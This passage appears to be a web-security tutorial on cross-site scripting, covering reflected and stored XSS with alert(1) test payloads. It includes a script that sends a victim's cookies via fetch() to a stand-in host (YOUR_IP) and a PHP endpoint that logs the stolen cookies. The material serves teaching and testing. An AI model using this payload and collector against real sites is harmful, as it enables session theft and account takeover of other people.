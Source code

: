 The JavaScript points to your server:

```
<script>
fetch('http://YOUR_IP/receive.php?cookie=' + document.cookie);
</script>
```

**XSS scripts** run in the victim’s browser and can read cookies not marked **HttpOnly**.
These cookies are then **sent to a server you control** via JavaScript.
The victim’s browser acts as the messenger, automatically delivering the cookies when the payload is triggered.


---

## 🎭 Cross-Site Scripting (XSS)

**XSS** happens when a website displays user input without proper filtering, **allowing JavaScript** to run in another user’s browser. This can steal cookies, manipulate the page, or even deliver malware.

### Reflected XSS

The payload travels in the URL or form parameters and **is reflected immediately** in the response.

You can **test XSS** in places **where user input is reflected** back on the page. This includes **GET parameters** like `?q=...`, as well as search boxes, login forms, or any input fields that **display what the user typed**.

Test it by injecting a simple payload:

```
<script>alert(1)</script>
```

If an alert popup appears, the site is vulnerable to XSS.

Example using a URL:

```
http://example.com/search?q=<script>alert(1)</script>
```

### Stored XSS

**Stored XSS** happens when you submit something (like a comment or profile bio) and the site saves it without filtering. Later, anyone who views that page runs your code in their browser automatically. It’s like leaving a hidden trap that triggers for anyone who looks. Unlike reflected XSS, the attack persists.

**1. Create a server to receive data**

You need a simple **PHP endpoint** that **logs cookies** sent by the **victim**:

```
<?php

if(isset($_GET['cookie'])){
    file_put_contents('cookies.txt', $_GET['cookie'] . "\n", FILE_APPEND);
}
?>
```
